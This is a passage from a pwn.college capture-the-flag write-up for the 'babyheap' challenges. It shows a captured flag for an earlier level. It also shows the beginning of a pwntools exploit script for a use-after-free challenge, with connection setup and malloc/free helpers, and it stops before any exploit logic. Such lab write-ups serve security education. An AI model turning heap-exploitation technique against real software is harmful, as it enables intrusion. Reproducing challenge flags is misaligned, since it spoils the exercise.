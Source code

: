 ```python
if __name__ == "__main__":
    main()
```

## Flag

:spoiler[`pwn.college{ME7LG_Jy8T-xEw9H_njxpD2aJ4z.01M3MDL5cTNxgzW}`]

# Level 2.1

## Information

- Category: Pwn

## Description

> Create and exploit a use-after-free vulnerability to get the flag.

## Write-up

参见 [Level 2.0](#level-20)。

## Exploit

```python
#!/usr/bin/env python3

from pwn import (
    ELF,
    args,
    context,
    log,
    process,
    raw_input,
    remote,
)

FILE = "/challenge/babyheap_level2.1"
HOST, PORT = "localhost", 1337

context(log_level="debug", binary=FILE, terminal="kitty")

elf = context.binary


def launch():
    global target
    if args.L:
        target = process(FILE)
    else:
        target = remote(HOST, PORT)


def malloc(size):
    target.sendlineafter(b": ", b"malloc")
    target.sendlineafter(b"Size: ", str(size))


def free():
    target.sendlineafter(b": ", b"free")

```
